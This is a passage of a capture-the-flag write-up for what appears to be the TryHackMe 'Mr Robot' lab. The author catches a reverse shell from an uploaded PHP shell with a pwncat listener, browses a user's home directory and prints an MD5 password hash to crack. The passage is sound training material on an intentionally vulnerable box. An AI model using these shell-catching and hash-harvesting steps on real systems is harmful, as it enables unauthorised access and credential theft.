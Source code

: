 ![Shell](/assets/img/mrrobot/revshell.png)

uploaded php shell let's execute it

we have pwncat listening.

```bash
┌─[argenestel@parrot]─[~/Desktop/tryhackme/robotctf]
└──╼ $pwncat --listen --port 1234
[15:37:16] received connection from 10.10.239.89:51343                                                     connect.py:148
[15:37:18] new host w/ hash 243b586998c75238b33cb10b9ad0ab52                                                victim.py:325
[15:37:31] pwncat running in /bin/sh                                                                        victim.py:358
[15:37:39] pwncat is ready 🐈                                                                               victim.py:768


(remote) daemon@linux:/$




daemon@linux:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/home$ cd robot/
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@linux:/home/robot$
```
so we can crack the hash and get
